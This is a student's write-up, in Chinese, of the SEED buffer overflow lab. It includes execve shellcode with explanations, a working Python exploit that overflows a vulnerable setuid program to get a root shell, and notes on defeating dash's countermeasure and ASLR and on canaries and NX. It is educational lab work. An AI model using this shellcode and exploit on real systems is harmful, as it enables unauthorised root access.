# Buffer Overflow Vulnerability Lab

> 1120162015 李博

## 0x00 准备工作

### a. 更改系统设置

如下，将地址随机化关闭，并将具有set-UID机制保护的bash更换为zsh。



### b. 程序编译设置

如下，将栈保护关闭，栈可执行打开。



## 0x01 Task1：Running Shellcode

### Step1: 解释源码 

脚本内容如下

```c
[05/13/19]seed@VM:~/.../code$ cat call_shellcode.c 
/* call_shellcode.c  */

/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>

const char code[] =
  "\x31\xc0"             /* xorl    %eax,%eax              */
  "\x50"                 /* pushl   %eax                   */
  "\x68""//sh"           /* pushl   $0x68732f2f            */
  "\x68""/bin"           /* pushl   $0x6e69622f            */
  "\x89\xe3"             /* movl    %esp,%ebx              */
  "\x50"                 /* pushl   %eax                   */
  "\x53"                 /* pushl   %ebx                   */
  "\x89\xe1"             /* movl    %esp,%ecx              */
  "\x99"                 /* cdq                            */
  "\xb0\x0b"             /* movb    $0x0b,%al              */
  "\xcd\x80"             /* int     $0x80                  */
;

int main(int argc, char **argv)
{
   char buf[sizeof(code)];
   strcpy(buf, code);
   ((void(*)( ))buf)( );
} 
```

解释如下：

> 在Linux中，系统调用通过int 0x80实现，用系统调用号区分入口函数，其中寄存器eax存放调用号，ebx，ecx等寄存器存放参数。
>
> 这里调用execve，系统调用号为0xb，对应eax，参数分别为“/bin//sh”，NULL，NULL，对应ebx，ecx，edx。
>
> 故shellcode就是实现将eax=0xb，ebx=“/bin//sh”，ecx=0，edx=0。
>
> xorl    %eax,%eax    作用就是将eax清0
>
> pushl   %eax 		将eax入栈
>
> pushl   $0x68732f2f  就是将“//sh”的倒序的16进制入栈
>
> pushl   $0x6e69622f  将“/bin”的倒序的16进制入栈
>
> movl    %esp,%ebx    将esp赋给ebx，即ebx指向“/bin//sh”
>
> pushl   %eax         将eax的值0，入栈
>
> pushl   %ebx         将ebx，即“/bin//sh”的地址入栈
>
> movl    %esp,%ecx    将esp赋给ecx
>
> cdq 				 将edx使用eax的高位填充，这里eax=0,高位为0，故edx=0
>
> movb    $0x0b,%al    将eax的低字节赋为0x0b
>
> int     $0x80 	   进行系统调用


### Step2: 编译源码`call_shellcode.c`

```shell
gcc -z execstack -o call_shellcode call_shellcode.c
``
```


### Step3: 运行

可以看到获得shell




## 0x02 Task2: Exploiting the Vulnerability 

### Step1: 编译

```shell
gcc -o stack -m32 -z execstack -fno-stack-protector -no-pie -g stack.c
```


### Step2: 分析

源码如下

```c
$ cat stack.c 
/* stack.c */

/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
{
    char buffer[24];

    /* The following statement has a buffer overflow problem */ 
    strcpy(buffer, str);

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);

    printf("Returned Properly\n");
    return 1;
}

```

可以看到`str`数组大小为517,而`buffer`大小为24,由于strcpy不检查长度,故存在栈溢出。

用`checksec`命令查看程序的保护机制，如下。



没有栈保护，可以栈溢出。NX关闭，栈可执行。PIE关闭，地址固定。

于是我们可以在栈上写一段shellcode，并控制返回地址到shellcode开头所在地址，即可getshell。

在IDA中可以清晰的看栈的结构，如下，故我们需要填充`0x20+4`个字符，之后便是ret地址。



接下来就需要知道栈上shellcode所在地址，我们先用`bbbb`代替ret地址，如下。



gdb调试，在strcpy执行完后，我们可以看到content所在地址为`0xffffcd98`。



使用`telescope`命令查看`0xffffcd98`之后的内容，如下。



可以看到，真正ret的地址应为`0xffffcdc0`，即栈上ret地址加上偏移4。事实上由于我们使用nop指令填充，故`0xffffcdc0`之后的一段地址都可以使用。

使用该地址跑一发后发现`segmentation fault`，原因是gdb中的地址和实际地址有些不一样。

解决办法就是开启core dump，执行以下命令。

```shell
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
```

接着`gdb ./stack /tmp/core.1557752690`调试，如下图



使用`telescope`查看esp附近的数据，如下。



可以看到，真实的ret所在栈上地址为`0xffffceac`，故我们可以使用`0xffffceb0`之后的地址作为返回地址。

exp如下

```python
#!/usr/bin/python3

import sys

shellcode= ( 
    "\x31\xc0"             # xorl    %eax,%eax              
    "\x50"                 # pushl   %eax                   
    "\x68""//sh"           # pushl   $0x68732f2f            
    "\x68""/bin"           # pushl   $0x6e69622f            
    "\x89\xe3"             # movl    %esp,%ebx              
    "\x50"                 # pushl   %eax                   
    "\x53"                 # pushl   %ebx                   
    "\x89\xe1"             # movl    %esp,%ecx              
    "\x99"                 # cdq                            
    "\xb0\x0b"             # movb    $0x0b,%al              
    "\xcd\x80"             # int     $0x80                  
    "\x00"
).encode('latin-1')

# Fill the content with NOP's
content = 'a'*(0x20+4)  + '\xb0\xce\xff\xff'
content += chr(0x90)*(517-len(content)) 
content = bytearray(map(ord,content))

# Put the shellcode at the end
start = 517-len(shellcode)
content[start:] = shellcode 

# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()

```

结果如下




## Task3: Defeating dash’s Countermeasure

### Step1: 注释掉setuid

如下图，可以看到虽然我们通过`chmod`设置了suid标志位，但是在运行之后由于dash的检测机制，将uid被降至真实的euid。



### Step2：使用setuid



可以看到，虽然在程序运行的时候uid被降至gid，但是通过程序内部执行`setuid(0)`可以达到一样的效果。

### Step3: attack 

如下图，通过在shellcode中添加`setuid(0)`的功能，使得在getshell之后拥有root权限，能够执行`cat /etc/shadow`。



而没有`setuid(0)`的shellcode获取的shell就只有普通用户的权限。

这是因为dash中的检测机制，当uid与euid不相等时，uid被降至euid。



## Task4: Defeating Address Randomization 

### Step1: set kernel.randomize_va_space=2

如下图，当设置地址随机化后，程序每次运行的地址随机，使得payload中填充的返回地址失效，出现段错误。



### Step2: 循环运行stack

如下图，这个方法比较无脑，但是效率还挺高，原因是这只是32位的系统。

原理就是不断运行stack，直到payload的ret_addr能够命中。



## Task5: Turn on the Stack Guard Protection

如下图，开启栈保护后栈溢出就无法利用了。

该机制名为canary，是为了防止栈溢出而在栈上写了一段随机的数据，若有栈溢出则会将其覆盖，系统检测到之后就停止程序。

.

## Task6: Turn on the Non-executable Stack Protection 

如下图，开启栈不可执行后，将shellcode写入栈上就行不通了。

但此时栈溢出是可行的，故我们可以使用ret2libc，将返回地址覆盖为system地址，并执行`/bin/sh`。

